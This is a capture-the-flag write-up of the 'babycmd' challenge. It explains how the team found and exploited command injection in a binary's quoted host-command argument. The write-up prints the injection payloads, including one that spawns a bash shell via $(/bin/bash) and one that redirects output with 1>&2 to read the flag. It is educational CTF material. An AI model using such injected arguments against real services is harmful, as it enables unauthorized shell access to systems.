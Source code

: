 ##Baby's first: babycmd

##TL;DR
If you aren't interested in the long answer to the question of "How does one solve this problem?", 
the short answer is that improper sanitization of the argument to the host commad allowed the 
inclusion of unnecessary characters and the usage of ```host \"%s\"``` allowed us to escape the 
first paren and achieve command execution. The specific payload we used was something to the effect 
of ```host ww."$(/bin/bash)"www```, which gave a shell. The final step was simply directing 
standard output to standard error.

##Overview
For those who wish to learn more about what was described above, this is a more indepth 
write up aimed at displaying the method used to identify the problem and then go about 
exploiting it. The main individuals that contributed to this solution were RyanAiden, 
Captain RedBeard, 1cyFl4m3 and the most progress came from darkstructures. 
Let us begin, we are given the hostname and port ```babycmd3ad...00b.quals.shallweplayaga.me:15491``` 
as well as a program binary.  

##Methology
First things first, we need to download the given binary program and determine what 
it is. 

```
$ file babycmd 
babycmd: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

Now we know we are dealing with a 64-bit executable. To run the program we must first give it executable rights. 
To do so, we execute ```chmod +x babycmd*```. Now we can run the program.

Running the program from terminal let's us see the program accepts arguments to the commands ping, dig and host.
```
$ ./babycmd 

Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: ping 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.047 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.036 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0 0x7fdcbc26e100acket loss, time 1998ms
rtt min/avg/max/mdev = 0.031/0.038/0.047/0.006 ms
Commands: ping, dig, host, exit
: dig hosts

; <<>> DiG 9.9.5-3ubuntu0.2-Ubuntu <<>> hosts
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 47090
;; flags: qr aa ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;hosts.				IN	A

;; Query time: 12 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Thu May 21 11:01:42 CDT 2015
;; MSG SIZE  rcvd: 23

Commands: ping, dig, host, exit
: host host
Host host not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
: exit
Goodbye
```

The commands seem to be executed through their respective programs on the machine, so this leads us to think this 
could be a command injection challenge. The goal would be to execute our own commands instead of 
ping, dig, and host. Using a disassembler we can get a better idea of what is going on. The disassembled 
code shows the strings being used to execute the respective commands. The host command uses a different format 
than the other two commands. Host is executed via ```host \"%s\"``` rather than just ```host %s``` like the other commands. 
Excellent, the double quotes can be escaped which would enable us to be able to 
inject commands in the form of ``` host "command here" ``` . Trying this in our program tells us 
we entered an invalid hostname. Further digging in the disassembled code reveals some basic checking 
is done on the argument for the host option. To pass the checking, the hostname cannot contain certain characters. 
Using ``` host aa"(command)"aa ``` will pass verification and allow us to inject commands. 

Attempting basic commands such as ``` host aa"ls"aa ``` would not provide any results back and 
``` host aa"ls /"aa ``` would have the spaces stripped out of it. We needed a command with no 
spaces that would grants us access to the machine. After more time than necessary we tried 
``` host ww"$(/bin/bash)aa ``` which popped us into a bash shell locally so we thought we 
had it. Trying this on the remote host gave a slightly different result. Executing standard commands 
would not return any results but trying ``` cat flag ``` returned the error for file 
not found. One of us noticed it was only returning the results of stderr. Great. We can just 
pipe the results of all of our commands from stdout to stderr. After a quick google we found 
this was done by using ```1>&2```. We simply appended this to our previous attempts and we 
were at a standard shell. After digging, we found the flag in the home directory of the user 
babycmd. We read the flag with ``` cat /home/babycmd/flag 1>&2 ```.

The flag was ``` Pretty easy eh!!~ Now let's try something h4rd3r, shallwe?? ```

